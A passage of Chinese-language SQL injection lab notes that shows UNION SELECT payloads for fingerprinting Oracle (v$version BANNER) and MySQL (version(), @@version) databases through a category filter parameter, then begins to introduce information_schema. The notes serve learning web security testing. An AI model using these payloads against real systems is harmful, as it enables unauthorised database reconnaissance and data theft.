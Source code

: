```
filter?category='+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

选择 `v$version` 视图中的 `BANNER` 列，通常该列包含数据库版本信息

![image-20250430212639713](./img/image-20250430212639713.png)

**SQL注入攻击，查询MySQL的数据库类型和版本**

```
'union select null,version()--+
' UNION SELECT @@version, NULL--+
```

![image-20250430213746868](./img/image-20250430213746868.png)

**查询数据库中的内容**

大多数数据库类型（Oracle 除外）都有一组称为信息架构（`information_schema`）的视图。这提供了有关数据库的信息。
